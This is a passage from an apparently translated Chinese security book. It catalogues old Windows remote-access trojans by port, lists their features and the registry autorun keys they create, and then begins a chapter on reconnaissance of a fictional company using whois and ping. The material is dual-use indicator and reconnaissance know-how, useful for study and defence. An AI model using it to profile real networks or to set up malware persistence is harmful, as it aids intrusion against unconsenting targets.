

**图 4.19** Doly 木马控制面板。

**端口：1024, 31338-31339**

**服务：NetSpy**

**黑客策略：** NetSpy（图 4.20）是另一个旨在进行内部技术间谍活动的守护进程。该软件允许攻击者监视本地或远程的 1 到 100 个站点。已添加远程控制功能以执行命令，结果如下：

- 显示可见和不可见窗口的列表
- 更改目录
- 启用服务器控制
- 列出文件和子目录
- 提供系统信息收集
- 发起消息
- 隐藏“开始”按钮
- 隐藏任务栏
- 显示 ASCII 文件
- 以隐形模式执行任何 Windows 或 DOS 命令



**图 4.20** NetSpy 客户端程序。

**端口：1042**

**服务：BLA**

**黑客策略：** BLA 是一个具有发送 ICMP 回声、目标系统重启和直接消息传递等功能的远程控制守护进程（参见图 4.21）。目前，BLA 已编译实例化以下注册表项：

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
System = "C:\WINDOWS\System\mprdll.exe"

HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
SystemDoor = "C:\WINDOWS\System\rundll argpl"
```

**端口：1170, 1509**

**服务：Psyber Stream Server, Streaming Audio 木马**

**黑客策略：** 这些守护进程旨在实现一个独特的特定目的：向受害者发送流媒体音频。拥有成功实施和连接的攻击者基本上可以通过目标的扬声器说出或播放任何内容。

**端口：1234**

**服务：Ultors 木马**

**黑客策略：** Ultors 是另一个用于远程执行程序和中止 shell 命令、控制运行进程以及重启或停止目标系统的 telnet 守护进程。随着时间推移，已添加了功能，使攻击者能够发送消息并显示常见的错误通知。



**图 4.22** SubSevenApocalypse。

**端口：1243, 6776**

**服务：BackDoor-G, SubSeven, SubSevenApocalypse**

**黑客策略：** 这些都是臭名昭著的 Sub7 后门守护进程的变体，如图 4.22 所示。感染后，它们允许运行客户端软件的攻击者通过互联网获得目标系统的无限制访问权限。它们拥有许多功能。安装程序被伪装成笑话和实用工具，主要是作为可执行电子邮件附件。该软件通常由以下文件组成，其名称也可以被修改：

```
\WINDOWS\NODLL.EXE
\WINDOWS\ SERVER.EXE or KERNEL16.DLL or WINDOW.EXE
\WINDOWS\SYSTEM\WATCHING.DLL or LMDRK_33.DLL
```

**端口：1245**

**服务：VooDoo Doll**

**黑客策略：** 与端口 1245 相关的守护进程被称为 VooDoo Doll。该程序是有限远程控制前身的功能编译，旨在造成破坏（参见图 4.23）。地下世界的消息称，恶意团体正在分发这种木马，并附带破坏性伴随程序，这些程序在执行 VooDoo




**图 4.23** VooDoo Doll 的功能特性。

VooDoo Doll 曾以“擦除”——即多次覆盖目标文件，从而使文件无法恢复——整个硬盘而闻名，在某些情况下，它还会损坏操作系统程序文件。

### 端口：1492

**服务：** FTP99CMP

**黑客策略：** FTP99cmp 是另一个简单的远程 FTP 服务器守护进程，使用以下注册表项：

```
HKEY_LOCAL_MACHINE, Software\Microsoft\Windows\CurrentVersion\Run – WinDLL_16
```

### 端口：1600

**服务：** Shyvka-Burka

**黑客策略：** 这个远程控制特洛伊木马提供了简单的功能，如文件传输和控制，因此分布较为稀疏。

目前，该守护进程未使用系统注册表，但以偏爱端口 1600 而闻名。

### 端口：1981

**服务：** Shockrave

**黑客策略：** 这个远程控制守护进程是另一个不常见的 Telnet 隐身套件，仅有一种已知的编译版本强制使用端口 1981。在配置期间，利用以下注册表项：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run\Services - NetworkPopup
```

### 端口：1999

**服务：** BackDoor

**黑客策略：** 作为最早出现的远程后门特洛伊木马之一，BackDoor（如图 4.24 所示）在全球范围内分布广泛。尽管使用 Visual Basic 开发，但该守护进程拥有功能丰富的控制模块，包括：



- CD-ROM 控制
- CTRL-ALT-DEL 和 CTRL-ESC 控制
- 消息传递
- 聊天
- 任务查看
- 文件管理
- 窗口控制
- 鼠标冻结

在配置期间，利用以下注册表项：

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\ - notpa
```

### 端口：1999-2005, 9878

**服务：** Transmission Scout

**黑客策略：** Transmission Scout 是一款德国远程控制特洛伊木马，包含众多不良功能。在配置期间，利用以下注册表项：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run — kernel16
```

尽管此程序分布稀疏，但它已更新以支持以下控制：

- 目标关机与重启
- 系统和驱动器信息检索
- ICQ/电子邮件警报
- 密码检索
- 音频控制
- 鼠标控制
- 任务栏控制
- 文件管理
- 窗口控制
- 消息传递
- 注册表编辑器
- 垃圾桌面
- 屏幕截图转储

### 端口：2001

**服务：** Trojan Cow

**黑客策略：** Trojan Cow 是另一个远程后门特洛伊木马，具有许多新功能，包括：

- 打开/关闭光驱
- 显示器关/开
- 移除/恢复桌面图标
- 移除/恢复“开始”按钮
- 移除/恢复“开始”菜单栏
- 移除/恢复系统托盘
- 移除/恢复时钟
- 交换/恢复鼠标按钮
- 更改背景
- 将鼠标困在角落
- 删除文件
- 运行程序
- 隐形运行程序
- 关闭受害者 PC
- 重启受害者 PC
- 注销 Windows
- 关机

在配置期间，利用以下注册表项：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run - SysWindow
```

### 端口：203

**服务：** Ripper

**黑客策略：** Ripper 是一个较旧的远程键盘记录特洛伊木马，旨在记录按键。通常，其意图是复制密码、登录名等。由于其在关机或工作站重启后无法重新启动，Ripper 因威胁潜力有限而被降级。



**图 4.25** Bugs 的图形用户界面。

### 端口：2115

**服务：** Bugs

**黑客策略：** 该守护进程（如图 4.25 所示）是另一个简单的远程访问程序，功能包括通过有限的 GUI 进行文件管理和窗口控制。在配置期间，利用以下注册表项：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run - SysTray
```

### 端口：2140, 3150

**服务：** The Invisor

**黑客策略：** The Invisor 是另一个简单的远程访问程序，功能包括密码检索、消息传递、声音控制、格式化以及屏幕捕获（见图 4.26）。

### 端口：2155, 5512

**服务：** Illusion Mailer

**黑客策略：** Illusion Mailer 是一种电子邮件垃圾邮件器，允许攻击者伪装成受害者并从目标工作站发送电子邮件。电子邮件头将包含目标 IP 地址，而不是实际发送消息的攻击者的地址。在配置期间，利用以下注册表项：



```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices - Sysmem
```

### 端口：2565

**服务：Striker**

**黑客策略：** 执行后，该特洛伊木马的目标是破坏 Windows。幸运的是，该守护进程在目标系统重启后不会驻留，因此已被降级为最低警戒状态。



**图 4.27** WinCrash 工具。

### 端口：2583, 3024, 4092, 5742

**服务：** WinCrash

**黑客策略：** 这个后门特洛伊木马让攻击者获得目标系统的完全远程访问权限。它已更新以包含洪水攻击选项，现在具有非常高的威胁评级（见图 4.27）。

### 端口：2600

**服务：** Digital RootBeer

**黑客策略：** 这个远程访问后门特洛伊木马是另一个骚扰生成器，功能包括：

- 消息传递
- 监视器控制
- 窗口控制
- 系统冻结
- 调制解调器控制
- 聊天
- 音频控制

在配置期间，利用以下注册表项：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices - ActiveX Console
```

### 端口：2801

**服务：** Phineas Phucker

**黑客策略：** 这个远程访问后门特洛伊木马如图 4.28 所示，是又一个骚扰生成器，具备浏览器、窗口和音频控制功能。

### 端口：2989

**服务：** RAT

**黑客策略：** 这是一个极其危险的远程访问后门特洛伊木马。RAT 旨在破坏硬盘驱动器。在配置期间，利用以下注册表项：

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\Explorer= "C:\WINDOWS\system\MSGSVR16.EXE"
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServices\Default="
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServices\Explorer="
```

### 端口：3459-3801

**服务：** Eclipse

**黑客策略：** 该特洛伊木马本质上是一个隐身 FTP 守护进程。一旦执行，攻击者将获得对所有文件的完全权限 FTP 访问，包括文件执行、删除、读取和写入。在配置期间，利用以下注册表项：



**图 4.28** Phineas Phucker 特洛伊木马。

```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run\
Rnaapp="C:\WINDOWS\SYSTEM\rnaapp.exe"
```

### 端口：3700, 9872-9875, 10067, 10167

**服务：** Portal of Doom

**黑客策略：** 这是一个流行的远程控制特洛伊木马，其功能如图 4.29 所示，包括：

- CD-ROM 控制
- 音频控制



**图 4.29** Portal of Doom 功能。

- 文件资源管理器
- 任务栏控制
- 桌面控制
- 键盘记录器
- 密码检索
- 文件管理

### 端口：4567

**服务：** File Nail

**黑客策略：** 另一个远程 ICQ 后门 File Nail 在 ICQ 社区中造成混乱（见图 4.30）。

### 端口：5000

**服务：** Bubbel

**黑客策略：** 这是另一个远程后门特洛伊木马，具有与新 Trojan Cow 相似的功能，包括：

- 消息传递
- 监视器控制


**图 4.30** File Nail 被编程用于使 ICQ 守护进程崩溃。

- 窗口控制
- 系统冻结
- 调制解调器控制
- 聊天
- 音频控制
- 键盘记录
- 打印
- 浏览器控制

**端口：** 5001, 30303, 50505

**服务：** Sockets de Troie

**黑客策略：** Sockets de Troie 是一种病毒，它会与一个远程管理后门一起传播。病毒执行后，在将自身复制到 `Windows\System\` 目录并命名为 `MSCHV32.EXE` 并修改 Windows 注册表时，会显示一个简单的 DLL 错误。在配置期间，通常利用以下注册表项：

```
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion
    \RunLoadMSchv32 Drv = C:\WINDOWS\SYSTEM\MSchv32.exe
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunLoad
    MgadasKdll = C:\WINDOWS\SYSTEM\MgadasKdll.exe
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunLoad
    Rsrcload = C:\WINDOWS\Rsrcload.exe
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion
    \RunServicesLoad Csctrlr132 = C:\WINDOWS\SYSTEM\Csctrlr132.exe
```


**图 4.31** Robo-Hack 有限的功能基础。

**端口：** 5569

**服务：** Robo-Hack

**黑客策略：** Robo-Hack 是一个用 Visual Basic 编写的较旧的远程访问后门。该守护进程不会自我传播，且在系统重启后不会保持驻留。如图 4.31 所示，其有限的功能基础包括：

- 系统监控
- 文件编辑
- 系统重启/关机
- 消息传输
- 浏览器控制
- CD-ROM 控制


**图 4.32** The tHing 可以远程上传并执行程序。

**端口：** 6400

**服务：** The tHing

**黑客策略：** The tHing 是一个设计用于远程上传并执行程序的恶意小守护进程（见图 4.32）。该守护进程声名狼藉的原因在于其传播病毒和其他远程控制器的能力。在配置期间，利用以下注册表项：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices - Default
```

**端口：** 6912

**服务：** Shit Heap

**黑客策略：** 这是一个相当常见的木马，试图伪装成回收站。感染后，系统回收站将被更新（见图 4.33）。与此 Visual Basic 守护进程编译在一起的有限功能模块包括：


**图 4.33** 被 Shit Heap 感染后生成的系统消息。

- 桌面控制
- 鼠标控制
- 消息传输
- 窗口终结器
- CD-ROM 控制

**端口：** 6969, 16969

**服务：** Priority

**黑客策略：** Priority（如图 4.34 所示）是一个功能丰富的 Visual Basic 远程控制守护进程，包括：

- CD-ROM 控制
- 音频控制
- 文件资源管理器
- 任务栏控制
- 桌面控制
- 键盘记录器
- 密码获取
- 文件管理
- 应用程序控制
- 浏览器控制
- 系统关机/重启
- 音频控制
- 端口扫描


**图 4.34** Priority 的功能丰富能力。

**端口：** 6970

**服务：** GateCrasher

**黑客策略：** GateCrasher 是另一个危险的远程控制守护进程，因为它伪装成一个 Y2K（千禧年问题）修复工具。该软件包含了远程后门木马中几乎所有的功能（见图 4.35）。在配置期间，利用以下注册表项：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion
\RunServices - Inet
```

**端口：** 7000

**服务：** Remote Grab

**黑客策略：** 该守护进程作为一个为远程窥视设计的屏幕抓取器。在配置期间，复制以下文件：

```
\Windows\System\mprexe.exe
```


**图 4.35** GateCrasher 包含了最常见的后门功能。

**端口：** 7789

**服务：** ICKiller

**黑客策略：** 该守护进程旨在将互联网账户密码发送给攻击者。凭借其具有欺骗性的前端，该程序已经欺骗了许多新手黑客，伪装成一个简单的 ICQ 轰炸器（见图 4.36）。

**端口：** 9400

**服务：** InCommand

**黑客策略：** 该守护进程是在原始的 *Sub7* 系列之后设计的，包含一个预可配置的服务器模块。


**图 4.36** ICKiller 是一种伪装成 ICQ 木马的密码窃取器。

**端口：** 10101

**服务：** BrainSpy

**黑客策略：** 这种远程控制木马的功能与最典型的文件控制守护进程相似；然而，在执行时，该程序具有删除所有病毒扫描文件的能力。在配置期间，利用以下注册表项：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices - Dualji
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices - Gbubuzh
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\RunServices - Fexhgcux
```

**端口：** 10520

**服务：** Acid Shivers

**黑客策略：** 这种远程控制木马基于 telnet 服务用于命令执行，并具备在目标系统处于活动状态时向攻击者发送电子邮件警报的能力（见图 4.37）。


**图 4.37** Acid Shivers 可以向攻击者发送警报。

**端口：** 10607

**服务：** Coma

**黑客策略：** 这是另一个用 Visual Basic 编写的远程控制后门。其有限的功能可以从下图（图 4.38）中推断出来。


**图 4.38** Coma 的有限功能。


**图 4.39** Hack '99 可以实时发送按键。

**端口：** 12223

**服务：** Hack '99 KeyLogger

**黑客策略：** 该守护进程作为一个标准键盘记录器运行，只有一个例外；它具有将目标系统的按键实时发送给攻击者的能力（见图 4.39）。

**端口：** 12345-12346

**服务：** NetBus/2/Pro

**黑客策略：** 声名狼藉的远程管理和监控工具 *NetBus*，目前由 UltraAccess.net 拥有，现在包括 telnet、http 以及与服务器的实时聊天。更多细节，请访问 www.UltraAccess.net。

**端口：** 17300

**服务：** Kuang

**黑客策略：** 这是一种通过 SMTP 进行的简单密码获取木马/病毒变种。

**端口：** 20000-20001

**服务：** Millenium

**黑客策略：** Millenium 是另一个非常简单的具有远程控制功能的 Visual Basic 木马，最近已更新以包含：

- CD-ROM 控制
- 音频控制
- 文件资源管理器
- 任务栏控制
- 桌面控制
- 键盘记录器
- 密码获取
- 文件管理
- 应用程序控制
- 浏览器控制
- 系统关机/重启
- 音频控制
- 端口扫描

在配置期间，利用以下注册表项：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion
\RunServices - millenium
```

**端口：** 21544

**服务：** GirlFriend

**黑客策略：** 这是另一个非常常见的远程密码获取木马。最近的编译版本包括消息传输和 FTP 文件访问。在配置期间，利用以下注册表项：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion
\RunServices − Windll.exe
```

**端口：** 22222, 33333

**服务：** Prosiak

**黑客策略：** 再次，这是一个具有标准功能的常见远程控制木马，包括：

- CD-ROM 控制
- 音频控制
- 文件资源管理器
- 任务栏控制
- 桌面控制
- 键盘记录器
- 密码获取
- 文件管理
- 应用程序控制
- 浏览器控制
- 系统关机/重启
- 音频控制
- 端口扫描

在配置期间，利用以下注册表项：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion
\RunServices − Microsoft DLL Loader
```

**端口：** 30029

**服务：** AOL Trojan

**黑客策略：** 基本上，AOL 木马感染 DOS .EXE 文件。该木马可以通过局域网、广域网、互联网或通过电子邮件传播。当程序执行时，它会立即感染其他程序。

**端口：** 30100-30102

**服务：** NetSphere

**黑客策略：** 这是一种强大且极其危险的远程控制木马，具有以下功能：

- 屏幕捕获
- 消息传输
- 文件资源管理器
- 任务栏控制
- 桌面控制
- 聊天
- 文件管理


-   - 应用程序控制
-   - 鼠标控制
-   - 系统关闭/重启
-   - 音频控制
-   - 完整的系统信息

在配置过程中，使用了以下注册表项：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion
   \RunServices - nssx
```

端口：1349, 31337-31338, 54320-54321

服务：Back Orifice（后门）

黑客策略：这是一个臭名昭著且极其危险的 Back Orifice 守护程序，其在全球范围内的传播促使了许多 Windows 木马的开发。该软件的独特之处在于它与加密 UDP 数据包的通信过程作为 TCP 的替代方案——这使得它更难被检测到。更重要的是，该守护程序还支持插件以包含更多功能。在配置过程中，使用了以下注册表项：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion
   \RunServices - bo
```

端口：31785-31792

服务：Hack'a'Tack

黑客策略：这是又一个声名狼藉的远程控 制守护程序，分布广泛。如图 4.40 所示，Hack'a'Tack 包含了所有典型的功能。在配置过程中，使用了以下注册表项：

```
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion
   \RunServices - Explorer32
```

端口：33911

服务：Spirit

黑客策略：这个著名的远程后门守护程序包含一个非常独特的破坏性功能，即监视器烧毁。它会不断重置屏幕分辨率，传闻表明更新还会更改刷新率。在配置过程中，使用了以下注册表项：


**图 4.40** Hack'a'Tack 的功能。

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion
\RunServices - SystemTray = "c:\windows\window.exe"

**端口：** 40412

**服务：** The Spy（间谍）

**黑客策略：** 该守护程序被设计为一种有限制的键盘记录器。The Spy 仅实时捕获按键，因此不会在离线时保存记录的键。在配置过程中，使用了以下注册表项：

HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion
\RunServices - systay

**端口：** 47262

**服务：** Delta Source

**黑客策略：** 该守护程序使用 Visual Basic 设计，灵感源自 *Back Orifice*（后门）。因此，Delta Source 保留了与 BO 相同的功能。在配置过程中，使用了以下注册表项：

HK EY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices - Ds admin tool

**端口：65000**

**服务：Devil（魔鬼）**

**黑客策略：** Devil 是一个较旧的法国 Visual Basic 远程控制守护程序，在目标站点重启后不会保持活动状态。其有限的功能基础，如图 4.41 所示，包括消息发送、系统重启、CD-ROM 控制以及应用程序终止功能。


**图 4.41** Devil 木马有限的功能。

熟悉了与常见和隐藏系统端口及服务相关的责任后，让我们立即着手揭示安全和黑客技术的秘密。从下一章及后续章节中获得的知识将有助于建立坚实的安全黑客基础，从而辅助培养一种审慎的安全直觉。在开始之前，重要的是要说明本书中技术涉及的严重法律问题。*未经目标公司书面同意，这些程序中的大多数在美国和许多其他国家都是非法的。作者或出版商对本书中包含信息的使用或误用不承担责任。*

# 接下来是什么

本章的意图是建立对输入/输出计算机端口及其相关服务的基本理解。当我们进入下一章时，识别这些端口的潜在漏洞至关重要。在那个阶段，我们将学习如何扫描计算机以查找易受攻击的端口，并确定目标网络的预黑客攻击信息。

## 第 5 章

# 发现与扫描技术

如今，通往技术信息和商业间谍活动的通道已经敞开，导致全球企业之间的担忧日益增加。黑客使用统称为 *发现*（Discovery）的技术针对网络信息。这是本章第一部分的主题。发现技术与扫描技术密切相关，而扫描技术是本章第二部分的主题。扫描可利用的安全漏洞已使用多年。其想法是探测尽可能多的端口，并记录那些对特定黑客攻击具有响应性和风险端点。扫描程序报告这些响应监听器，分析弱点，然后将这些弱点与已知的黑客方法数据库进行交叉引用以进行进一步说明。本章的扫描部分首先定义扫描，然后检查扫描过程，并列出几种可用于安全分析的扫描器。最后，该部分通过一个真实世界的场景演示扫描功能。

# 发现

在线用户，无论是个人还是企业，可能在浏览网页和连接广域网时希望保持匿名，但在线匿名身份的存在，虽然并非不可能，但在技术上很难实现。不过，你可以访问 www.anonymizer.com 进行免费的匿名网页浏览（如图 5.1 所示）。


图 5.1 匿名网页浏览。

本节深入探讨用于发现和调查目标网络的查询过程，为关于漏洞扫描和渗透攻击的部分做准备，并使用现实世界的插图。

发现是规划对本地或远程网络攻击的第一步。一次有预谋的、严肃的黑客尝试需要对目标网络有一定的了解。远程攻击被定义为使用通信协议通过通信介质，从目标网络外部发起的攻击。以下技术将展示通过互联网进行远程攻击的发现准备。

本节中描述的技术可以按任何顺序执行，通常取决于对目标网络的当前了解。以下示例基于一家目标公司——委婉地称为 XYZ, Inc.（出于保护目的，该公司的实际名称、域名和地址已更改）。

# Whois 域名搜索查询

在互联网上找到一个特定的网络可能像大海捞针一样；这是可能的，但很困难。Whois 是一种互联网服务，允许用户查找信息，例如给定公司或在该域名拥有账户的用户的通用资源定位符 (URL)。

执行 Whois 域名搜索查询涉及在互联网上定位目标公司的网络域名。域名是连接到互联网或其他任何 TCP/IP 网络的设备的地址，在一个使用词语来识别服务器、组织以及组织类型（如 www.companyname.com）的系统中。提供 Whois 搜索的主要域名是互联网网络信息中心 (InterNIC)。InterNIC 负责注册域名和 IP 地址，以及分发有关互联网的信息。InterNIC 位于弗吉尼亚州赫恩登，成立于 1993 年，是由美国国家科学基金会、AT&T、通用原子（General Atomics）和 Network Solutions Inc. 组成的联盟。

以下列表包含提供 Whois 服务的域名的具体 URL：

-   **www.networksolutions.com/cgi-bin/whois/whois**。北美地区的 InterNIC 域名相关信息
-   **www.ripe.net**。欧洲相关信息
-   **www.apnic.net**。亚太地区相关信息

图 5.2 和 5.3 展示了来自 Network Solutions (InterNIC) 的针对我们的目标公司 XYZ, Inc. 的 Whois 服务示例。正如你所见，Whois 发现了目标公司 XYZ, Inc. 的一些宝贵信息，即公司的 URL：www.xyzinc.com。

既然目标公司已被定位并确认为有效的互联网域名，下一步是点击 Whois 搜索结果中的域名链接（见图 5.4）。随后，地址验证将证实正确的目标公司 URL。详细的 Whois 搜索显示以下相关信息：

-   XYZ, Inc. 域名 URL www.xyzinc.com
-   **行政联系人**。Bill Thompson（显然是 XYZ, Inc. 的员工）
-   **技术联系人**。Hostmaster（似乎是 XYZ 的互联网服务提供商 [ISP]）
-   **域名服务器**。207.237.2.2 和 207.237.2.3（本书后文将讨论）


**图 5.2** 在 www.networksolutions.com 上执行 Whois 查询的前端界面。


122


**图 5.3** 搜索结果指示找到我们的目标公司。

### 主机 PING 查询

下一步包括执行一个简单的 ICMP 回显请求（PING）主机，以揭示 www.xyzinc.com 的 IP 地址。回想一下，PING 是 Packet Internet Groper 的缩写，它是一种用于测试特定计算机是否连接到互联网的协议；它向目标 IP 地址发送数据包并等待响应。

> PING 源自潜艇主动声呐，其中广播一种称为 ping 的声音信号。周围物体通过声音的反射被发现。

在 Microsoft Windows 的 MS-DOS 窗口或 UNIX 的终端控制台会话中都可以执行 PING。简而言之，PING 命令揭示 IP 地址的过程可以分解为五个步骤：

1.  一个站点执行 PING 请求。
2.  该请求向您的 DNS 或您的 ISP 注册的 DNS 查询以进行名称解析。
3.  因为 URL（在本例中为 www.xyzinc.com）相对于您的网络是外部的，该查询会被发送到 InterNIC 的其中一个 DNS。
4.  从 InterNIC DNS 中，域名 xyzinc.com 与 XYZ 自己的 DNS 或 ISP DNS 的 IP 地址（来自图 4 的 207.237.2.2）匹配并被转发。
5.  托管 DNS 服务的 XYZ Inc. 的 ISP 将域名 www.xyzinc.com 解析并匹配到一个 IP 地址，并将数据包转发到 XYZ 的 Web 服务器，最终返回响应。

请查看图 5.5 以获取这些步骤的图形说明。

图 5.6 展示了 MS-DOS 窗口中针对目标公司 XYZ 的 URL（www.xyzinc.com）的主机 PING 查询摘录。

> **本书 CD 中包含一个自动发现模块。**

域名的标准 DNS 条目通常包括 WWW（互联网 Web 服务器）、Mail（邮件 SMTP 网关服务器）和 FTP（FTP 服务器）的名称到 IP 地址记录。扩展的 PING 查询可能会揭示我们目标网络 206.0.125.x 上的这些主机：


